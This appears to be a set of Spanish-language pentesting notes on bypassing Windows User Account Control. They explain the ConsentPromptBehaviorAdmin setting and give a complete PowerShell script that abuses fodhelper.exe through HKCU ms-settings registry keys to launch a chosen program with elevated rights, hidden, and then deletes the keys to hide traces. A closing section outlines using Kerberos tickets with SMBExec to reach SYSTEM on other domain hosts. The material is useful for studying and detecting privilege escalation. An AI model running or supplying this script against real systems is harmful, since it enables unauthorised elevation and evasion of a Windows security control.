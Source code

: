 # Introducción a UAC

Tags: #AD #Evasion #Windows #UAC 

El Control de Cuentas de Usuario (UAC) se utiliza para permitir que un usuario con permisos de administrador otorgue privilegios elevados a procesos específicos. Esto se logra utilizando, de manera predeterminada, un token de bajo privilegio del usuario. Cuando el administrador ejecuta un proceso con privilegios elevados, se produce una elevación de UAC, y si esta se completa correctamente, el proceso se inicia utilizando el token con privilegios administrativos.

* [UAC](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/)

```bash 
Debemos enfocarnos en validar el valor de la clave ConsentPromptBehaviorAdmin.

- Si es cero entonces, UAC no se iniciará al abrir un programa como administrador (como deshabilitado).
- Si es 1, se le solicitara al administrador por el nombre de usuario y la contraseña para ejecutar el binario con altos derechos (en RDP).
- Si es 2 (Siempre se desplegará el UAC) UAC siempre pedirá confirmación al administrador cuando intente ejecutar algo con altos privilegios (en RDP).
- Si es 3, como 1 pero no es necesario en RDP.
- Si es 4, como 2 pero no es necesario en RDP.
- Si es 5 (por defecto) pedirá confirmación al administrador para ejecutar binarios no Windows con altos privilegios.
```

## Bypass UAC utilizando FodhelperUACBypass.ps1

`Fodhelper.exe` es un ejecutable de Windows que forma parte del sistema operativo y se encuentra en la carpeta `System32`. Este ejecutable está diseñado para permitir que los usuarios ejecuten funciones auxiliares del Panel de Control de Windows. Lo que es notable desde una perspectiva de seguridad es que `fodhelper.exe` se ejecuta con privilegios elevados sin provocar una solicitud de UAC, lo que proporciona una oportunidad tentadora para los actores de amenazas de eludir los controles de UAC.

* **Ambiente:** Sistema operativo Windows con UAC habilitado.
* **Privilegios:** Acceso inicial con privilegios de usuario estándar.

```bash 
# Procedimiento 

Paso 1: Manipulación del Registro de Windows
El primer paso para ejecutar el bypass de UAC usando 'fodhelper.exe' implica realizar cambios en el Registro de Windows. La técnica emplea la creación de claves de registro específicas que alteran el comportamiento de 'fodhelper.exe':
- Crear una nueva clave de registro en 'HKCU:\Software\Classes\ms-settings\Shell\Open\command'.
- Establecer la propiedad '(default)' de la clave 'HKCU:\Software\Classes\ms-settings\Shell\Open\command' para que apunte al payload malicioso que se desea ejecutar.
- Establecer la propiedad 'DelegateExecute' de la misma clave a una cadena vacía para asegurarse de que la cadena de comandos sea interpretada y ejecutada adecuadamente.

Paso 2: Ejecución de Fodhelper.exe
Posteriormente, cuando `fodhelper.exe` es ejecutado, Windows intenta abrir la aplicación asociada con la configuración y, debido a las manipulaciones realizadas en el registro, ejecutará el payload malicioso especificado con privilegios elevados sin presentar la notificación de UAC al usuario.

Paso 3: Limpieza
Tras la ejecución del payload, es prudente eliminar las claves de registro creadas para reducir los rastros de la actividad maliciosa y evitar posibles problemas derivados de la manipulación del registro.
```

## Implementación con PowerShell

```powershell
<#
.SYNOPSIS  
    This script can bypass User Access Control (UAC) via fodhelper.exe
　
    It creates a new registry structure in: "HKCU:\Software\Classes\ms-settings\" to perform UAC bypass and starts 
    an elevated command prompt. 
　
.EXAMPLE  
　
     Load "cmd /c start C:\Windows\System32\cmd.exe" (it's default):
     FodhelperUACBypass 
　
     Load specific application:
     FodhelperUACBypass -program "cmd.exe"
     FodhelperUACBypass -program "cmd.exe /c powershell.exe"　
#>

function FodhelperUACBypass(){ 
 Param (
           
        [String]$program = "cmd /c start C:\Windows\System32\cmd.exe" #default
       )
　
    #Create Registry Structure
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force
　
    #Start fodhelper.exe
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
　
    #Cleanup
    Start-Sleep 3
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
　
}
```

## Bypass utilizando Kerberos y SMBExec

```bash 
Kerberos es un protocolo de autenticación de red que utiliza tickets para ayudar a los usuarios a probar su identidad a través de una red insegura, como Internet. En el contexto del bypass de UAC, una vez que se han obtenido derechos de administrador local, un atacante o pentester puede utilizar Kerberos para solicitar un Ticket Granting Ticket (TGT) sin interactuar con el UAC.


Proceso de Solicitud de TGT
1. Solicitud Inicial: Con las credenciales de administrador local, el atacante solicita un TGT al Servicio de Ticket de Concesión (TGS) en el Controlador de Dominio (DC), especificando el servicio y usuario objetivo.
2. Recepción del TGT: Una vez que el DC valida las credenciales, un TGT es generado y enviado al solicitante. Este TGT es un token de acceso temporal que permite al usuario solicitar tickets de servicio para diferentes recursos en el dominio.
3. Uso del TGT: Utilizando el TGT, el atacante puede luego solicitar tickets de servicio para acceder a otros recursos y servicios dentro del dominio, sin necesidad de autenticación adicional.
```

```bash 
Una vez que un atacante tiene acceso a un TGT, pueden utilizar herramientas como SMBExec para establecer sesiones de autenticación con otros sistemas en la red, utilizando el protocolo SMB (Server Message Block).


SMBExec y Evasión de UAC
1. Establecimiento de Sesión SMB: Utilizando SMBExec, el atacante puede utilizar el TGT para autenticarse en otros sistemas en el dominio a través de SMB, un protocolo utilizado para compartir acceso a archivos, impresoras y otros recursos de red.
2. Escalada de Privilegios: Debido a que los tickets Kerberos pueden ser utilizados para la autenticación de nivel de sistema (NT AUTHORITY\SYSTEM), el atacante puede potencialmente establecer una sesión SMB con privilegios elevados en el sistema objetivo.
3. Ejecución de Código: Con una sesión de NT AUTHORITY\SYSTEM, el atacante tiene la capacidad de ejecutar código arbitrario, manipular servicios, y realizar otras acciones con el máximo nivel de privilegios en el sistema objetivo, todo ello sin interactuar con el UAC.
```